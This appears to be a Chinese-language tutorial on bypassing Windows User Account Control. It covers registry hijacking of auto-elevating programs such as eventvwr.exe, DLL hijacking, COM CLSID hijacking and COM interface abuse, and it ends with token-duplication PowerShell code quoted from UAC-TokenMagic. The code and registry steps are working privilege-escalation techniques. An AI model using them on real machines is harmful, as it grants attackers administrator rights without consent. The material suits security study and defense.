# Bypass UAC

## 1.概述

**用户帐户控制** (UAC) 有助于防止恶意软件损坏电脑，并且有助于组织部署易于管理的桌面。 借助 UAC，应用和任务将始终在非管理员帐户的安全上下文中运行，除非管理员专门授予管理员级别的访问系统权限。 UAC 可阻止自动安装未经授权的应用并防止意外更改系统设置。UAC 允许所有用户使用标准用户帐户登录到他们的计算机。 使用标准用户令牌启动的进程可能会使用授予标准用户的访问权限执行任务。 例如，Windows 资源管理器会自动继承标准用户级别权限。 此外，使用 Windows 资源管理器启动（例如，通过双击快捷方式）的任何应用也会使用标准用户权限组运行。 许多应用（包括操作系统本身附带的应用）旨在通过此方式正常运行。UAC通过限制应用软件对系统层级的访问，从而改进Windows操作系统的安全性。以上来自[UAC](https://docs.microsoft.com/zh-cn/windows/security/identity-protection/user-account-control/user-account-control-overview)。简而言之，UAC就像一个游乐场的检票员，用户相当于游客，用户令牌相当于游乐园套票。检票员检查套票来确定游客能游玩的项目。放在windows上就是UAC通过用户令牌来确定用户所能执行的操作。

## 2.UAC工作原理

microsoft详细介绍了UAC的工作原理，见[how-user-account-control-works](https://docs.microsoft.com/zh-cn/windows/security/identity-protection/user-account-control/how-user-account-control-works)。为了不对系统本身需要的程序造成影响，且运行系统程序时不需要弹窗询问，微软设置了UAC白名单，白名单里的程序带有微软签名，这些程序默认以管理员权限运行，不触发UAC。白名单程序一般在system32目录下

触发UAC的条件：

```
配置Windows Update
增加或删除用户账户
改变用户的账户类型
改变UAC设置
安装ActiveX
安装或移除程序
安装设备驱动程序
设置家长控制
将文件移动或复制到Program Files或Windows目录
查看其他用户文件夹
更改注册表
更改系统保护或者高级系统设置
```

在触发UAC时，windows会通过consent.exe进程来确定程序是否在白名单内以及程序的签名、运行程序用户的权限，然后根据结果判断是否弹出UAC框。UAC确认之后，会调用CreateProcessAsUser函数创建进程。UAC框以system进程启动在新的安全桌面，其他用户无法与之通信，所以不能通过模拟点击的方式来进行UAC确认。

## 3.UAC绕过方法

Bypass UAC的方法大概可以分为：

1.  白名单
2. DLL劫持
3. COM组件劫持
4. 令牌复制
5. COM接口技术

### 3.1 白名单

白名单内的程序默认以管理员权限启动。启动时会读取注册表HKCR下的键值，根据值启动相应的进程。把原本的键值改为cmd.exe,

当高权限程序在运行过程中调用了键值，就会以高权限启动cmd.exe。

常见高权限白名单：

```
1.sdclt.exe
2.dccw.exe
3.eventvwr.exe
4.computerdefaults.exe
5.fodhelper.exe
```

以eventvwr.exe为例分析白名单绕过UAC机制。

查看eventvwr.exe属性，autoElevet属性为true，意味着可以自动提升权限。执行时会以管理员权限启动。



使用procmon查看eventvwr.exe启动时读取的注册表项，发现eventvwr.exe会查询HKCU\Software\Classes\mscfile\shell\open\command，当HKCU\Software\Classes\mscfile\shell\open\command为NAME NOT FOUND时，才会往下查询HKCR\mscfile\shell\open\command。在注册表里可以看到HKCR\mscfile\shell\open\command存储了MMC.exe的路径，HKCU\Software\Classes\mscfile\shell\open\command是不存在的。



在注册表里添加HKCU\Software\Classes\mscfile\shell\open\command项，值为要启动的程序，例如cmd，这个项普通用户权限就可以修改。当eventvwr.exe启动时，就会以管理员权限启动cmd。



### 3.2 DLL劫持

DLL劫持绕过UAC的原理是劫持高权限白名单程序启动是要加载的DLL，达到高权限代码执行的目的。

以C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe为例，procemon查看启动时加载的DLL



SystemPropertiesAdvanced会按照DLL加载的顺序去加载srrstr.dll，最终会在每个环境变量的路径去遍历

加载srrstr.dll。所以如果有环境变量路径的写入权限，就可以将恶意srrstr.dll写入，SystemPropertiesAdvanced启动时便会加载执行




### 3.3 COM组件劫持

**组件对象模型**（Component **O**bject **M**odel，**COM**）是平台无关、分布式、面向对象的一种系统，可以用来创建可交互的二进制软件组件”。COM是微软OLE（复合文档）、ActiveX（互联网支持组件）以及其他组件的技术基础，COM允许对象跨进程和计算机边界进行交互。COM的核心是一组组件对象间交互的规范，定义了组件对象如何与其用户通过二进制接口标准进行交互，COM的接口是组件的类型纽带。COM还提供定位服务的实现，可以根据Windows系统注册表，从一个类标识（CLSID）来确定COM组件的位置（也可使用程序标识符（ProgID）是标识一个COM，但精度较低，因为不能保证它是全局唯一的），可以用CLSID实例化每个对象，然后枚举每个COM对象公开的方法和属性。一个COM组件可以实现多个COM对象，每个COM对象实现多个COM接口，DLL或者EXE作为COM组件的实现的容器。COM采用自己的IDL来描述组件的接口（interface），支持多接口，解决版本兼容问题。COM为所有组件定义了一个共同的父接口IUnknown。GUID 是一个 128 位整数（16 字节），COM将其用于计算机和网络的唯一标识符。

**CLSID**是标识 COM 类对象的全局唯一标识符，用于表示组件对象模型或基于 COM 的程序的特定实例。每个 CLSID 与包含该 CLSID 代码的 DLL 或 EXE 的位置之间的映射，客户端想要创建 COM 类的实例并使用其服务时，COM 都会根据CLSID查询对应的DLL或EXE（在HKCU\CLSID\{xxxx}\InprocServer32\Default ），加载到进程中。下图是控制面板对应CLSID



COM组件通过CLSID注册在注册表中的三个key下，当COM查询CLSID时，程序按照固定的顺序读取注册表值，获得DLL或EXE路径。依次读取顺序为：

```
HKEY_CURRENT_USER\Software\Classes\CLSID
HKEY_CLASSES_ROOT\CLSID
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\ShellCompatibility\Objects\
```

以eventvwr.exe为例，使用procmon监控启动时读取的注册表项



和DLL加载过程类似，依次查询对应的项，没有查到就往下一个项查找。和DLL劫持原理类似，在COM对应的CLSID的键值写入恶意的DLL或者EXE路径，当COM组件读取CLSID调用的时候，就会运行恶意的程序。

下图是MSF windows/local/bypassuac_comhijack插件通过COM组件劫持bypass UAC提权过程。



windows/local/bypassuac_comhijack插件通过劫持eventvwr.exe、mmc.exe这两个自提权程序的COM加载过程来达到bypass UAC目的。在上文可以看到eventvwr启动过程中会查询加载HKCU\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}下的值，但是默认这个键是不存在系统中的，且普通用户权限对HKCU\Software\Classes\CLSID可写。所以在注册表中增加这个键，设置相应的值，就可以达到劫持COM组件调用的目的。下图是windows/local/bypassuac_comhijack插件写入的内容：



ThreadingModel属性见[threading-model-attribute](https://docs.microsoft.com/en-us/windows/win32/cossdk/threading-model-attribute)

当eventvwr查询到这个CLSID之后，便会把dll加载到进程中。



### 3.5 利用COM接口

COM接口通常是一组以函数的逻辑集合，其命名一般以“I"为前缀，并且继承IUnKnown接口。COM对象可以提供多个COM接口，每个接口提供不同的服务，因此COM接口与COM对象一样，都是用GUID来标识的，客户通过GUID来获取接口指针，再通过接口指针获取对应的服务。在系统中找到自提升的COM对象，且该对象接口能执行命令，便可以实现接口执行命令，绕过UAC。参考[BypassUAC](https://github.com/cnsimo/BypassUAC)


### 3.5 令牌复制

每个进程都有一个主要令牌，用于描述与该进程关联的用户帐户的安全上下文。默认情况下，当进程的线程与安全对象进行交互时，系统使用主令牌。受限令牌是 [**CreateRestrictedToken**](https://docs.microsoft.com/zh-cn/windows/win32/api/securitybaseapi/nf-securitybaseapi-createrestrictedtoken)函数修改的主要或模拟访问令牌。 在受限令牌的安全上下文中运行的进程或模拟线程在访问安全对象或执行特权操作的能力方面受到限制。在调用 [**CreateProcessAsUser**](https://docs.microsoft.com/zh-cn/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createprocessasusera)函数时使用受限令牌,不需要SE_ASSIGNPRIMARYTOKEN_NAME权限。启动一个高权限进程，复制该进程令牌，修改为受限令牌，再以受限令牌启动新进程，可以使新进程获得原有进程的部分权限。工具：[UAC-TokenMagic](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/UAC-TokenMagic.ps1)。

```powershell
		$ShellExecuteInfo = New-Object SHELLEXECUTEINFO
		$ShellExecuteInfo.cbSize = [System.Runtime.InteropServices.Marshal]::SizeOf($ShellExecuteInfo)
		$ShellExecuteInfo.fMask = 0x40 # SEE_MASK_NOCLOSEPROCESS
		$ShellExecuteInfo.lpFile = "wusa.exe"
		$ShellExecuteInfo.nShow = 0x0 # SW_HIDE
		
		if ([UACTokenMagic]::ShellExecuteEx([ref]$ShellExecuteInfo)) {
			echo "[*] WUSA process created"
			$hProcess = $ShellExecuteInfo.hProcess
		} else {
			echo "[!] Failed to create WUSA process!`n"
			Break
		}
```

启动wusa进程

```powershell
	$hToken = [IntPtr]::Zero
	if ([UACTokenMagic]::OpenProcessToken($hProcess,0x02000000,[ref]$hToken)) {
		echo "[*] Opened process token"
	} else {
		echo "[!] Failed open process token!`n"
		Break
	}
	
	# Duplicate token
	# TOKEN_ALL_ACCESS = 0xf01ff
	$hNewToken = [IntPtr]::Zero
	$SECURITY_ATTRIBUTES = New-Object SECURITY_ATTRIBUTES
	if ([UACTokenMagic]::DuplicateTokenEx($hToken,0xf01ff,[ref]$SECURITY_ATTRIBUTES,2,1,[ref]$hNewToken)) {
		echo "[*] Duplicated process token"
	} else {
		echo "[!] Failed to duplicate process token!`n"
		Break
	}
```

打开wusa进程令牌句柄，复制令牌

```powershell
	$SID_IDENTIFIER_AUTHORITY = New-Object SID_IDENTIFIER_AUTHORITY
	$SID_IDENTIFIER_AUTHORITY.Value = [Byte[]](0x0,0x0,0x0,0x0,0x0,0x10)
	$pSID = [IntPtr]::Zero
	if ([UACTokenMagic]::AllocateAndInitializeSid([ref]$SID_IDENTIFIER_AUTHORITY,1,0x2000,0,0,0,0,0,0,0,[ref]$pSID)) {
		echo "[*] Initialized MedIL SID"
	} else {
		echo "[!] Failed initialize SID!`n"
		Break
	}
	
	# Token integrity label
	$SID_AND_ATTRIBUTES = New-Object SID_AND_ATTRIBUTES
	$SID_AND_ATTRIBUTES.Sid = $pSID
	$SID_AND_ATTRIBUTES.Attributes = 0x20 # SE_GROUP_INTEGRITY
	$TOKEN_MANDATORY_LABEL = New-Object TOKEN_MANDATORY_LABEL
	$TOKEN_MANDATORY_LABEL.Label = $SID_AND_ATTRIBUTES
	$TOKEN_MANDATORY_LABEL_SIZE = [System.Runtime.InteropServices.Marshal]::SizeOf($TOKEN_MANDATORY_LABEL)
	if([UACTokenMagic]::NtSetInformationToken($hNewToken,25,[ref]$TOKEN_MANDATORY_LABEL,$($TOKEN_MANDATORY_LABEL_SIZE)) -eq 0) {
		echo "[*] Lowered token mandatory IL"
	} else {
		echo "[!] Failed modify token!`n"
		Break
	}
	
	# Create restricted token
	# LUA_TOKEN = 0x4
	$LUAToken = [IntPtr]::Zero
	if([UACTokenMagic]::NtFilterToken($hNewToken,4,[IntPtr]::Zero,[IntPtr]::Zero,[IntPtr]::Zero,[ref]$LUAToken) -eq 0) {
		echo "[*] Created restricted token"
	} else {
		echo "[!] Failed to create restricted token!`n"
		Break
	}
	
	# Duplicate restricted token
	# TOKEN_IMPERSONATE | TOKEN_QUERY = 0xc
	$hNewToken = [IntPtr]::Zero
	$SECURITY_ATTRIBUTES = New-Object SECURITY_ATTRIBUTES
	if ([UACTokenMagic]::DuplicateTokenEx($LUAToken,0xc,[ref]$SECURITY_ATTRIBUTES,2,2,[ref]$hNewToken)) {
		echo "[*] Duplicated restricted token"
	} else {
		echo "[!] Failed to duplicate restricted token!`n"
		Break
	}
	
```

设置受限令牌SID，创建受限令牌

```powershell
	if([UACTokenMagic]::ImpersonateLoggedOnUser($hNewToken)) {
		echo "[*] Successfully impersonated security context"
	} else {
		echo "[!] Failed impersonate context!`n"
		Break
	}
	
	# Prepare CreateProcessWithLogon
	$StartupInfo = New-Object STARTUPINFO
	$StartupInfo.dwFlags = 0x00000001
	$StartupInfo.wShowWindow = 0x0001
	$StartupInfo.cb = [System.Runtime.InteropServices.Marshal]::SizeOf($StartupInfo)
	$ProcessInfo = New-Object PROCESS_INFORMATION
	
	# Spawn elevated process
	# LOGON_NETCREDENTIALS_ONLY = 0x2
	$CurrentDirectory = $Env:SystemRoot
	if ([UACTokenMagic]::CreateProcessWithLogonW("aaa", "bbb", "ccc", 0x00000002, $BinPath, $Args, 0x04000000, $null, $CurrentDirectory,[ref]$StartupInfo, [ref]$ProcessInfo)) {
		echo "[*] Magic..`n"
	} else {
		echo "[!] Failed to create process!`n"
		Break
```

检查令牌安全上下文，利用受限令牌创建进程。



### 

